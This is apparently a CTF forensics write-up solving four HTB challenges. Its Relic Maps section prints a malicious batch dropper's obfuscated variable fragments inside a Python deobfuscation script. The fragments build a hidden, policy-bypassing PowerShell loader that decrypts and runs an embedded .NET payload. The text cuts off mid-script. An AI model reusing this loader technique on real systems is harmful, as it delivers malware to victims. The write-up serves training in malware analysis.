




## Plaintext Tleasure

**Given file:** [Get it here!](https://drive.google.com/file/d/1O77S-Ti8GErZxdZoYiTKEWsCBWn6Fp9b/view?usp=sharig)

**Description:** Threat intelligence has found that the aliens operate through a command and control server hosted on their infrastructure. Pandora managed to penetrate their defenses and have access to their internal network. Because their server uses HTTP, Pandora captured the network traffic to steal the server's administrator credentials. Open the provided file using Wireshark, and locate the username and password of the admin.

**Category:** Forensics

We are given a network pcap file. Although we can solve this challenge using [Wireshark](https://www.wireshark.org/), but to keep it simple for the very first challenge, we will use [strings](https://www.howtogeek.com/427805/how-to-use-the-strings-command-on-linux/) and [grep](https://www.geeksforgeeks.org/grep-command-in-unixlinux/) to get the flag.

Here we use strings to dump out strings from the pcap file, then use pipe (|) and grep to find for strings that match the flag format - **HTB{**.



Flag is: **HTB{th3s3_4l13ns_st1ll_us3_HTTP}**

## Alien Cradle

**Given file:** [Get it here!](https://drive.google.com/file/d/12HfCz9D5QnpK7kQBwjCINwv29T5sr6Nc/view?usp=sharing)

**Description:** In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

**Category:** Forensics

For this challenge, we are given a Powershell Script file. In the script, the flag is being concatenated using some Powershell ~~magic~~ lines of code.

Flag is: **HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**

## Extraterrestrial Persistence

**Given file:** [Get it here!](https://drive.google.com/file/d/1-ySd0Z3kKvX3djL228eU0_vddZf4Pdn9/view?usp=sharing)

**Description:** There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

**Category:** Forensics

In this challenge, we are given a shell script to look for the flag. For the sake of understanding the flow of shell scripting, the script checks whether the username is **"Pandora"** and the hostname is **"linux_HQ"**. If the check is fulfilled, it starts the process to write the base64 decoded message into the file "/usr/lib/systemd/system/service.service". The decoded message turned out to contain the flag for our challenge.

Flag is: **HTB{th3s3_4l13nS_4r3_s00000_b4s1c}**

## Relic Maps

**Given file:** [Get it here!](https://drive.google.com/file/d/1oyfMzfnOM69pQdIVi9j63dkLZ2xvVkgq/view?usp=sharing)

**Description:** Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Forensics

From the link attached to this challenge, we obtain an Onenote file named "relicmaps.one". Analyze the file, we get 2 suspicious links, which lead us to 2 different files, [http://relicmaps.htb/uploads/soft/topsecret-maps.one](https://drive.google.com/file/d/14FBabJvLlTAjhCKbJBPMk6iI9u83HI0j/view?usp=share_link) and [http://relicmaps.htb/get/DdAbds/window.bat](https://drive.google.com/file/d/1t9jembhbhIFY6PE7Lx3J7yA5prTsVGXv/view?usp=share_link).

I did some analysis on the file "topsecret-maps.one", and there are only some PNGs inside it. In the "window.bat" file, we are given a Powershell Script. You can run it directly, but I choose to deobfuscate using Python to understand its flow.

```python
dict = """
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"
%eFlP%"nwIWiBzpbz=:\"
%eFlP%"xprVJLooVF=Po"
%eFlP%"tzMKflzfvX=0\"
%eFlP%"VCWZpprcdE=1."
%eFlP%"XzrrbwrpmM=\v"
%eFlP%"BFTOQBPCju=st"
%eFlP%"WmUoySsDby=he"
%eFlP%"tHJYExMHlP=rs"
%eFlP%"JPfTcZlwxJ=do"
%eFlP%"VxroDYJQKR=y "
%eFlP%"UBndSzFkbH=py"
%eFlP%"KXASGLJNCX=ll"
%eFlP%"vlwWETKcZH=em"
%eFlP%"OOOxFGwzUd=e""
%eFlP%"NCtxqhhPqI=32"
%eFlP%"GOPdPuwuLd=\W"
%eFlP%"XUpMhOyyHB=ex"
%eFlP%"cIqyYRJWbQ=we"
%eFlP%"kTEDvsZUvn=nd"
%eFlP%"XBucLtReBQ=Sy"
%eFlP%"JBRccySrUq=ow"
%eFlP%"eNOycQnIZD=xe"
%eFlP%"chXxviaBCr=we"
%eFlP%"YcnfCLfyyS=in"
%eFlP%"lYCdEGtlPA=.e"
%eFlP%"pMrovuxjjq=he"
%eFlP%"UrPeBlCopW=ll"
%eFlP%"ujJtlzSIGW= C"
%eFlP%"zhNAugCrcK="%~0."
%eFlP%"ZqjBENExAX=s\"
%VhIy%"dzPrbmmccE=cd"
%VhIy%"xQseEVnPet= "%~dp0""
%eUFw%"wxzMwkmbmY=gDBN"
%eUFw%"VavtsuhNIN=F'[-"
%eUFw%"AHKCuBAkui=r = "
%eUFw%"ARecVABHyu=uZOc"
%eUFw%"AbZpTpKurz=6] -"
%eUFw%"BaMYsIgnsM=$uZO"
%eUFw%"JBUgbyTPxp=m(, "
%eUFw%"vGOYQQYIpx=.-16"
%eUFw%"yPzFwnsYdA= New"
%eUFw%"zuIYfGJIhV=O.Me"
%eUFw%"gbXeIdPSoj='[-1"
%eUFw%"BqEMjgsfHM=]::("
%eUFw%"bivuMABwCB=Invo"
%eUFw%"SJsEzuInUY=ile "
%eUFw%"htJeDhbeDW=();$"
%eUFw%"ZygfZJxAOd=acUA"
%eUFw%"eDhTebXJLa="%~nx0."
%eUFw%"YlKbYsFYPy=in $"
%eUFw%"jdKMRqipbM=e]::"
%eUFw%"GVIREkvxRa=();$"
%eUFw%"OckpqzbYcn=n ''"
%eUFw%"UPfjubfNXt=Mr, "
%eUFw%"AkaPyEXHFq=esMa"
%eUFw%"LODxmGMGqq=flec"
%eUFw%"hImzprlFyw=pose"
%eUFw%"VZAbZqJHBk=1] -"
%eUFw%"WYJXnBQBDj= [Sy"
%eUFw%"rSVBNvbdPT=stem"
%eUFw%"tVtxVGNpFB=vert"
%eUFw%"tHHIjVCHeH=::De"
%eUFw%"WvjMoIIiUn=);$b"
%eUFw%"vmIEtsktnA=ypto"
%eUFw%"AbMyvUGzSH=fore"
%eUFw%"zDUDeXKPaV=..-1"
%eUFw%"INPLAzQfUo== [S"
%eUFw%"ArAxZuPIrp== $B"
%eUFw%"nGqMpclaJV=ZOcm"
%eUFw%"lfYSggLrsL=null"
%eUFw%"eQPFkQsLmh=hy.A"
%eUFw%"AyyrPvjwjr=;$mN"
%eUFw%"rjhOhltPzI=Disp"
%eUFw%"WojQSFImBz=17js"
%eUFw%"SKEwAQBRlN=$Nlg"
%eUFw%"KytxcYPZKt=YiLG"
%eUFw%"RGlZIMTaRM=urit"
%eUFw%"igJmqZApvQ=ss -"
%eUFw%"dGSGnKbkQW=pose"
%eUFw%"lSUnvlNyZI=tem."
%eUFw%"rddZbDFvhl=)))"
%eUFw%"KHqiJghRbq=and "
%eUFw%"WPGlloqWfh=ddin"
%eUFw%"pLUeCEDcNj=]::C"
%eUFw%"drymkVAnZW=);$B"
%eUFw%"KdByPVjCnF=ring"
%eUFw%"VnDoNvCbDL=orF'"
%eUFw%"GapFScCcpe=ke($"
%eUFw%"iVrCyJhMiJ=fc6t"
%eUFw%"oMsMdPYmPd=ert]"
%eUFw%"odWdfvJnBE=Lk ="
%eUFw%"ekEoGMuERC=yste"
%eUFw%"QMmDXFyyag=Syst"
%eUFw%"cYinxarhDL=lit("
%eUFw%"bIgeRgvTeJ=ap.T"
%eUFw%"acXjUrxrpX=raph"
%eUFw%"SCbDgQuqTU=ay()"
%eUFw%"YYKSCuCbgJ=New-"
%eUFw%"YnGvhgYxvb=cm ="
%eUFw%"vnHosfjdeN=;$Pt"
%eUFw%"LIQYgFxctD=d;$B"
%eUFw%"olHsTHINJO=[Env"
%eUFw%"WQqetkePWs=NVPb"
%eUFw%"AGOCIKFMEK=::('"
%eUFw%"QbKdEZdxpx=uGcO"
%eUFw%"RWcegafVtf=daeR"
%eUFw%"ESpdErsKEO=pher"
%eUFw%"kJjQuXIjOT=.Con"
%eUFw%"dbDMRBPrxg=uGcO"
%eUFw%"mBIWiJNHWZ=esaB"
%eUFw%"WmHvayPxwd=.Mem"
%eUFw%"oQYrpYRHsU=stem"
%eUFw%"HFLAqJuuyu=ew-O"
%eUFw%"JhYYmEHfJT=ing("
%eUFw%"pTKKchMUFD=BC;$"
%eUFw%"vShQyqnqqU=exe""
%eUFw%"PjdRUyhsyG=[]] "
%eUFw%"VUeZKgDBUe=.Com"
%eUFw%"oNvGdyNkLt=oArr"
%eUFw%"IAkZpnEseT=UA.I"
%eUFw%"haSZYOmkiA=bstr"
%eUFw%"tzSNMWchGN=]::N"
%eUFw%"YKwLsVwqOj=Fina"
%eUFw%"MFRjJyYsrs=k; }"
%eUFw%"EdLUuXiTNo=File"
%eUFw%"nMbUuONTOk=7;$B"
%eUFw%"OAsjgKHKoH= = N"
%eUFw%"LLNnWnTLBJ=$bTM"
%eUFw%"xVIsxobyZi= '')"
%eUFw%"pUKFMEPFQs=onve"
%eUFw%"DDiJEpaiME=acUA"
%eUFw%"ENADhKPHot= [st"
%eUFw%"WTAeYdswqF=.IO."
%eUFw%"hVncqdtHrj=[Sys"
%eUFw%"EUwICZcugV=);$N"
%eUFw%"USLedfRsdA=ispo"
%eUFw%"YULKJDZpgz=t Sy"
%eUFw%"BlIFABuPAW=ress"
%eUFw%"gNabAkLFGN=();$"
%eUFw%"cGJiVEdEzp=ZOcm"
%eUFw%"OpWuyrggtP=ddin"
%eUFw%"NbOjNijxuU=.Len"
%eUFw%"EuMCNHEVeC=nirt"
%eUFw%"iHRclHpeVX=-joi"
%eUFw%"zFvgtBzUer=Comp"
%eUFw%"klVPUdMJas=ecry"
%eUFw%"tBsRPAyhtG=;$gD"
%eUFw%"uOGlqENvnk=$NVP"
%eUFw%"WSRbQhwrOC=$eIf"
%eUFw%"gFQQimTbzp=bjec"
%eUFw%"FCBcNynRGD=Bmor"
%eUFw%"gNELMMjyFY=-win"
%eUFw%"pqWXTkasXe=+M0z"
%eUFw%"pjrIjvjdGR=tryP"
%eUFw%"aGQeJYSFDZ=m.Re"
%eUFw%"hknFiXCnZQ=ion."
%eUFw%"MxwsyqmvYm=.Cre"
%eUFw%"FijcPoQLnC=ne);"
%eUFw%"VGKsxiJBaT=.Sec"
%eUFw%"roXhULjavE=pres"
%eUFw%"FraARuTjiq=($Yi"
%eUFw%"rEvTlCThdH=VIHX"
%eUFw%"JCuNlxqlBZ=:: '"
%eUFw%"BANrSlObpx=nage"
%eUFw%"CMHWMmXlZO=eam("
%eUFw%"MtoMzhoqyY=bypa"
%eUFw%"xfHbUEWpFC=-Obj"
%eUFw%"ktDjVGpvOa=pStr"
%eUFw%"hzjnwzdyGY=ct S"
%eUFw%"HkiSTlwlIs=-4] "
%eUFw%"AnKEeEZdOq=rans"
%eUFw%"doKcadyJqy=xU7e"
%eUFw%"dyJHMHMcNc=S46e"
%eUFw%"jCsFOJQsdv=tem."
%eUFw%"pEeOvclMbZ=PKCS"
%eUFw%"fFqNPWfBWr=se()"
%eUFw%"XEyDmChJvW= = $"
%eUFw%"ZMNBNnhYdl=BacU"
%eUFw%"UmCJMMMcBg=m.IO"
%eUFw%"FcrKUOEnOU=.Cop"
%eUFw%"eYuashSMjP=y.Ci"
%eUFw%"reviZiSttH=oryS"
%eUFw%"xijYXotZPT=Comp"
%eUFw%"yqhJQSZuJo=rAsa"
%eUFw%"QCZuMFaZsV=lBlo"
%eUFw%"DAaZVQYtML=V = "
%eUFw%"gbVsRGzTij=.Key"
%eUFw%"OOiwgwuupI=ose("
%eUFw%"hbFnQgCXwX=Secu"
%eUFw%"AiqHTcPzsv=th('"
%eUFw%"KUKwZheGNw=BNO "
%eUFw%"OonlMOpxYC=tem."
%eUFw%"oFspIELDJK=ewLi"
%eUFw%"isQISZiBPJ=acUA"
%eUFw%"EiWocIreAk=yTo("
%eUFw%"CZpuCIcrKh=Secu"
%eUFw%"ZNBNkxQuUl=.GZi"
%eUFw%"ZPlPiozEyW='')("
%eUFw%"eFWpiweoyr=am;$"
%eUFw%"kEHDlJOIVc=gMod"
%eUFw%"PwJJFMgamh=eHDU"
%eUFw%"nfEeCcWKKK=-ep "
%eUFw%"dAuevoJWoL=gnir"
%eUFw%"BMVjGSkNrk=.Cry"
%eUFw%"GwAFOSfUtV=acUA"
%eUFw%"bSIafzAxiZ=Lk.T"
%eUFw%"uynFENuiYB=iron"
%eUFw%"BGoTReCegg=qq ="
%eUFw%"DXdgqiFTAH=ptog"
%eUFw%"QNxYaFZSBu=);$P"
%eUFw%"shhyfkrTvn=m = "
%eUFw%"fvEtritbuM= = $"
%eUFw%"IwOqmlYsbl=('da"
%eUFw%"EDuGpmwedn=m = "
%eUFw%"rFsKCxpAbv=.Dis"
%eUFw%"HLynrUfwGo=6esa"
%eUFw%"wwmTmFdRsZ=trea"
%eUFw%"IeRiYUFnCZ=Obje"
%eUFw%"kxCYxBSxVM=..-1"
%eUFw%"xULgeMdzcg='0xd"
%eUFw%"vXewtPjogB=$bTM"
%eUFw%"GhTXhmRnCR=, (,"
%eUFw%"MBvrUwPCDz=m.IO"
%eUFw%"KVdpASYkBZ=A.Pa"
%eUFw%"fxpyemHAMo=Stre"
%eUFw%"KtmeCApwQn=tion"
%eUFw%"jWtWLzuDKP=bbqM"
%eUFw%"xllGdjvUjB=em.I"
%eUFw%"ahbOZSBViB=Star"
%eUFw%"MusMeoeDey=Disp"
%eUFw%"ySgQyAAfQH=ect "
%eUFw%"LPGeAanVGt=3); "
%eUFw%"LYxpWUVnyn==');"
%eUFw%"TfyrgNGxBL=ress"
%eUFw%"ZNnASGtLCj=y]::"
%eUFw%"KXttaDcyMZ=.Mod"
%eUFw%"RfMwENsorP=morF"
%eUFw%"CZTFliIBbC=:('g"
%eUFw%"mYyPXMYwYi=oint"
%eUFw%"SIQjFslpHA=comm"
%eUFw%"pibEdoDBbD=mNKM"
%eUFw%"TVsNOuCNZd= '')"
%eUFw%"yQujDHraSv= hid"
%eUFw%"fVHBRsLNUl='gni"
%eUFw%"iREuYMPcTg=ct S"
%eUFw%"uDsfTCYsro=g = "
%eUFw%"zwDBykiqZZ=den "
%eUFw%"weRTbbZPjT=tyle"
%eUFw%"uwRWnyAikF=tS46"
%eUFw%"bTHJpHTPMM=)($V"
%eUFw%"TuqTvTpeOG=bn.D"
%eUFw%"GWrDWSvoPL=W.Su"
%eUFw%"KXapePmHCe=form"
%eUFw%"eeacPrYshd=iW20"
%eUFw%"XEcuUpquLQ=ress"
%eUFw%"iCcGUuJxVn=.Dis"
%eUFw%"WXWHLOygSe=gap."
%eUFw%"XIAbFAgCIP=dows"
%eUFw%"QzqEkBCLON=Lk);"
%eUFw%"pCjFJxRqgH=Conv"
%eUFw%"TEtLFfgLmA=TMLk"
%eUFw%"GzBAHPVuTq=] -j"
%eUFw%"VUsEoebHks=('2h"
%eUFw%"YiVTQhqRnm=New-"
%eUFw%"kQQvXhxXIT=Mode"
%eUFw%"RITIeDNkWx=$mNK"
%eUFw%"LNwemqbftD=saBm"
%eUFw%"DCnzMxKRnm=ose("
%eUFw%"ftaecaUnft=;$Nl"
%eUFw%"KhyyrSrcKr='[-1"
%eUFw%"QpDqsQAemY=rt]:"
%eUFw%"RycUceHQZc=ck($"
%eUFw%"QTBYjmNXEB=[Sys"
%eUFw%"iKAAuWsbec=).Sp"
%eUFw%"UAnQUvXBfs=$bTM"
%eUFw%"zhsTKtujLg=acUA"
%eUFw%"CpAQgSdzaC=Syst"
%eUFw%"qIhOqqdyjR=uZOc"
%eUFw%"LmCknrHfoB=ach "
%eUFw%"dlzhxQnMss=TBkD"
%eUFw%"YJZmDySMUy=)($u"
%eUFw%"gqUdnmSTUN=LGW "
%eUFw%"tuAPcYGhzl=n/J7"
%eUFw%"jxjvtHoTnR=tfdQ"
%eUFw%"jpqWVBsCpx=;$Nl"
%eUFw%"HUAAetwukX=1..-"
%eUFw%"rVOFKTskYR=]::("
%eUFw%"XzWakcViZI=ptor"
%eUFw%"hNwOTmvEJo=gGVE"
%eUFw%"MFpVhvZMMs=ptog"
%eUFw%"YRqcyngfyU=$Bac"
%eUFw%"uIWSZVpUHl=sion"
%eUFw%"QGiWXkfFPy=);$B"
%eUFw%"JPOdGPAwht=/Ntk"
%eUFw%"mxXhSCdBil=KMr."
%eUFw%"TYbHmXrqgV=)) {"
%eUFw%"kpEWZrtOzX=; };"
%eUFw%"TypmIIEYJC=grap"
%eUFw%"GEFNspgkfU=Obje"
%eUFw%"glRvzlEEoe=join"
%eUFw%"JbFOJyRrBm=oL'["
%eUFw%"hwZKiiLqAE=LGW."
%eUFw%"MrNTGKcbYu=n ''"
%eUFw%"XClTzcVMGM=join"
%eUFw%"XqtgTmRIdO=em.C"
%eUFw%"nMLIkcyFZj='txe"
%eUFw%"BrDOtQoojB=$uZO"
%eUFw%"LfngwmfRCb=fdQ."
%eUFw%"jtkYEPXtKX=TllA"
%eUFw%"KAlyOryibJ=yste"
%eUFw%"GJcpQprPXv=ionM"
%eUFw%"rofQqYizRu=-joi"
%eUFw%"UFSmCjquVd=rity"
%eUFw%"SRYmoDJgcF=raph"
%eUFw%"mFZJVdqlTD=[-1."
%eUFw%"hbnAmGyJMk=gth)"
%eUFw%"hTTJOKGuzo=brea"
%eUFw%"JenYfqHzBk=y.Cr"
%eUFw%"DwiWdAaOiv=cm);"
%eUFw%"vPgKEvZmlQ===')"
%eUFw%"jgiQdwyxFg=rtS4"
%eUFw%"qpUykKHwzb=('%~f0'"
%eUFw%"GLwLVWewUj=eIfq"
%eUFw%"MAPkvbWKbC=.Ass"
%eUFw%"jugDlMdkcG=.Cry"
%eUFw%"TiuQnZmosP=-1.."
%eUFw%"EQAuBusyXb=q) {"
%eUFw%"GTgGJngEbX=[IO."
%eUFw%"yZlAoExoOn=O.En"
%eUFw%"sLNudRRtUX=  $V"
%eUFw%"WauWfrgGak=ment"
%eUFw%"YmUoUKWAtR=ode]"
%eUFw%"yOkBDuSVrl= if "
%eUFw%"MJKqSlzRdg=VPbn"
%eUFw%"PmpGnAHBIo=, $u"
%eUFw%"cUDojRpXKx= [Sy"
%eUFw%"svwZUufvHX=y.Pa"
%eUFw%"GDXqElqPYy=($Yi"
%eUFw%"ybHVOwcPrc= = ["
%eUFw%"hIpFAiXGDz=m, 0"
%eUFw%"lfCLMrJHhW=gap "
%eUFw%"NXvoEmTmgu=1Mwd"
%eUFw%"DNNdkNfTiI=comp"
%eUFw%"kpzxAxFvLw=('%*'"
%eUFw%"MsfoqNTDfI=ateD"
%eUFw%"MmhvJKSdep=mory"
%eUFw%"uVLEiIUjzw=prof"
%eUFw%"NvnNgHLBLJ=n7Lw"
%eUFw%"owRVWPJqcX=rity"
%eUFw%"HlBVDpGgba=embl"
%eUFw%"SIneUaQPty=stem"
%eUFw%"nogFGGEgdF=16] "
%eUFw%"qsPTvcejTS=n = "
%eUFw%"wEZCzuPukj=[Sys"
%eUFw%"rVuFsOUxnm=yste"
%eUFw%"fLycQgNMii=oin "
%eUFw%"KsuJogdoiJ= -no"
%eUFw%"djeIEnPaCg=tsWi"
%eUFw%"brwOvSubJT=e = "
%eUFw%"TOqZKQRZli=uZOc"
"""
ls = dict.split('\"')
txt = {}
k = 0
tmp = ''
enc = '%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%%dzPrbmmccE%%xQseEVnPet%%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%EdLUuXiTNo%%rVOFKTskYR%%nMLIkcyFZj%%jtkYEPXtKX%%RWcegafVtf%%KhyyrSrcKr%%zDUDeXKPaV%%VZAbZqJHBk%%XClTzcVMGM%%xVIsxobyZi%%qpUykKHwzb%%iKAAuWsbec%%cYinxarhDL%%olHsTHINJO%%uynFENuiYB%%WauWfrgGak%%tzSNMWchGN%%oFspIELDJK%%FijcPoQLnC%%AbMyvUGzSH%%LmCknrHfoB%%GDXqElqPYy%%gqUdnmSTUN%%YlKbYsFYPy%%GLwLVWewUj%%EQAuBusyXb%%yOkBDuSVrl%%FraARuTjiq%%hwZKiiLqAE%%ahbOZSBViB%%djeIEnPaCg%%AiqHTcPzsv%%JCuNlxqlBZ%%TYbHmXrqgV%%sLNudRRtUX%%dbDMRBPrxg%%XEyDmChJvW%%KytxcYPZKt%%GWrDWSvoPL%%haSZYOmkiA%%JhYYmEHfJT%%LPGeAanVGt%%hTTJOKGuzo%%MFRjJyYsrs%%kpEWZrtOzX%%BrDOtQoojB%%YnGvhgYxvb%%cUDojRpXKx%%rSVBNvbdPT%%kJjQuXIjOT%%tVtxVGNpFB%%BqEMjgsfHM%%fVHBRsLNUl%%jgiQdwyxFg%%HLynrUfwGo%%FCBcNynRGD%%VavtsuhNIN%%HUAAetwukX%%nogFGGEgdF%%iHRclHpeVX%%MrNTGKcbYu%%bTHJpHTPMM%%QbKdEZdxpx%%drymkVAnZW%%DDiJEpaiME%%OAsjgKHKoH%%HFLAqJuuyu%%gFQQimTbzp%%YULKJDZpgz%%oQYrpYRHsU%%VGKsxiJBaT%%RGlZIMTaRM%%JenYfqHzBk%%vmIEtsktnA%%TypmIIEYJC%%eQPFkQsLmh%%AkaPyEXHFq%%BANrSlObpx%%LIQYgFxctD%%ZygfZJxAOd%%KXttaDcyMZ%%brwOvSubJT%%hVncqdtHrj%%OonlMOpxYC%%CZpuCIcrKh%%owRVWPJqcX%%jugDlMdkcG%%DXdgqiFTAH%%acXjUrxrpX%%eYuashSMjP%%ESpdErsKEO%%kQQvXhxXIT%%pLUeCEDcNj%%pTKKchMUFD%%ZMNBNnhYdl%%KVdpASYkBZ%%OpWuyrggtP%%uDsfTCYsro%%wEZCzuPukj%%jCsFOJQsdv%%hbFnQgCXwX%%UFSmCjquVd%%BMVjGSkNrk%%MFpVhvZMMs%%SRYmoDJgcF%%svwZUufvHX%%WPGlloqWfh%%kEHDlJOIVc%%jdKMRqipbM%%pEeOvclMbZ%%nMbUuONTOk%%GwAFOSfUtV%%gbVsRGzTij%%ybHVOwcPrc%%CpAQgSdzaC%%XqtgTmRIdO%%pUKFMEPFQs%%QpDqsQAemY%%CZTFliIBbC%%EuMCNHEVeC%%dyJHMHMcNc%%LNwemqbftD%%VnDoNvCbDL%%mFZJVdqlTD%%vGOYQQYIpx%%GzBAHPVuTq%%fLycQgNMii%%ZPlPiozEyW%%xULgeMdzcg%%iVrCyJhMiJ%%dlzhxQnMss%%pqWXTkasXe%%doKcadyJqy%%hNwOTmvEJo%%yqhJQSZuJo%%JPOdGPAwht%%rEvTlCThdH%%PwJJFMgamh%%eeacPrYshd%%LYxpWUVnyn%%YRqcyngfyU%%IAkZpnEseT%%DAaZVQYtML%%QTBYjmNXEB%%lSUnvlNyZI%%pCjFJxRqgH%%oMsMdPYmPd%%AGOCIKFMEK%%dAuevoJWoL%%uwRWnyAikF%%mBIWiJNHWZ%%RfMwENsorP%%gbXeIdPSoj%%kxCYxBSxVM%%AbZpTpKurz%%glRvzlEEoe%%TVsNOuCNZd%%VUsEoebHks%%tuAPcYGhzl%%WojQSFImBz%%NXvoEmTmgu%%jWtWLzuDKP%%NvnNgHLBLJ%%vPgKEvZmlQ%%ftaecaUnft%%lfCLMrJHhW%%ArAxZuPIrp%%zhsTKtujLg%%MxwsyqmvYm%%MsfoqNTDfI%%klVPUdMJas%%XzWakcViZI%%htJeDhbeDW%%ARecVABHyu%%EDuGpmwedn%%SKEwAQBRlN%%bIgeRgvTeJ%%AnKEeEZdOq%%KXapePmHCe%%YKwLsVwqOj%%QCZuMFaZsV%%RycUceHQZc%%TOqZKQRZli%%hIpFAiXGDz%%PmpGnAHBIo%%nGqMpclaJV%%NbOjNijxuU%%hbnAmGyJMk%%jpqWVBsCpx%%WXWHLOygSe%%rjhOhltPzI%%DCnzMxKRnm%%QGiWXkfFPy%%isQISZiBPJ%%iCcGUuJxVn%%dGSGnKbkQW%%gNabAkLFGN%%pibEdoDBbD%%AHKCuBAkui%%YYKSCuCbgJ%%IeRiYUFnCZ%%hzjnwzdyGY%%KAlyOryibJ%%MBvrUwPCDz%%WmHvayPxwd%%reviZiSttH%%wwmTmFdRsZ%%JBUgbyTPxp%%BaMYsIgnsM%%DwiWdAaOiv%%vXewtPjogB%%odWdfvJnBE%%yPzFwnsYdA%%xfHbUEWpFC%%ySgQyAAfQH%%QMmDXFyyag%%xllGdjvUjB%%zuIYfGJIhV%%MmhvJKSdep%%fxpyemHAMo%%eFWpiweoyr%%WQqetkePWs%%qsPTvcejTS%%YiVTQhqRnm%%GEFNspgkfU%%iREuYMPcTg%%rVuFsOUxnm%%UmCJMMMcBg%%VUeZKgDBUe%%roXhULjavE%%uIWSZVpUHl%%ZNBNkxQuUl%%ktDjVGpvOa%%CMHWMmXlZO%%RITIeDNkWx%%UPfjubfNXt%%GTgGJngEbX%%zFvgtBzUer%%TfyrgNGxBL%%hknFiXCnZQ%%xijYXotZPT%%BlIFABuPAW%%GJcpQprPXv%%YmUoUKWAtR%%tHHIjVCHeH%%DNNdkNfTiI%%XEcuUpquLQ%%EUwICZcugV%%MJKqSlzRdg%%FcrKUOEnOU%%EiWocIreAk%%LLNnWnTLBJ%%QzqEkBCLON%%uOGlqENvnk%%TuqTvTpeOG%%USLedfRsdA%%fFqNPWfBWr%%AyyrPvjwjr%%mxXhSCdBil%%MusMeoeDey%%OOiwgwuupI%%WvjMoIIiUn%%TEtLFfgLmA%%rFsKCxpAbv%%hImzprlFyw%%GVIREkvxRa%%qIhOqqdyjR%%shhyfkrTvn%%UAnQUvXBfs%%bSIafzAxiZ%%oNvGdyNkLt%%SCbDgQuqTU%%tBsRPAyhtG%%KUKwZheGNw%%INPLAz